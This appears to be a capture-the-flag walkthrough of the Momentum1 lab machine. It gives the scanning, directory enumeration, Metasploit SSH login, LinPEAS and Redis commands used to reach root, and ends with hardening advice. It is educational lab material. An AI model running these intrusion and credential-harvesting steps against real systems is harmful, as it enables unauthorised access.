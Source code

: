 #  Momentum1 CTF – Summary Walkthrough  

A full text-based breakdown of the Momentum1 vulnerable machine.  
This box highlights issues like weak frontend encryption, exposed cookies, and misconfigured Redis — all chained together to achieve root compromise.  

---

##  DISCOVERY  
- Ran nmap scan:  
  nmap -sV -A <ip>
  
Found open ports:
22 (SSH)
80 (HTTP – Web server)

##  ENUMERATION  
Ran gobuster on port 80:

gobuster dir -u http://<ip>/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,log,php,html,bak,zip

Discovered:
/css
/js
/manual
/img

Inside /js/main.js:
Comment revealed AES encryption method
Exposed decryption passphrase
Hidden URL that returned a cookie value

✅ Decrypted the cookie using the key → Recovered SSH credentials for user auxerre

##  FOOTHOLD  
Used Metasploit Framework with ssh_login module:

msfconsole
search ssh_login
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <ip>
set USERNAME auxerre
set PASSWORD <decrypted-password>
run

✅ Access gained as limited user auxerre

##  Privilege Escalation (auxerre → root)
Step 1 — Enumeration with LinPEAS:
Uploaded linpeas.sh to /tmp
Gave execute permission: chmod +x linpeas.sh
./linpeas.sh

Enumerated Linpeas result: Found Redis service running on the target

Step 2 — Exploiting Redis
Enumerated Redis and retrieved stored root password:
redis-cli
KEYS *
GET rootpass

Switched to root using discovered credentials:
su root

✅ Gained full root access

##  Recommendations
System & Service Hardening
Disable unauthenticated Redis access

Bind Redis to localhost or enforce strong authentication

Source Code & Application Layer
Never leave encryption methods, keys, or credentials in frontend code

Sanitize and restrict access to cookies and sensitive tokens

👉 View the Medium post here: [https://medium.com/@basitolasubomibalogun/momentum1-ctf-full-technical-walkthrough-c770f8848665]
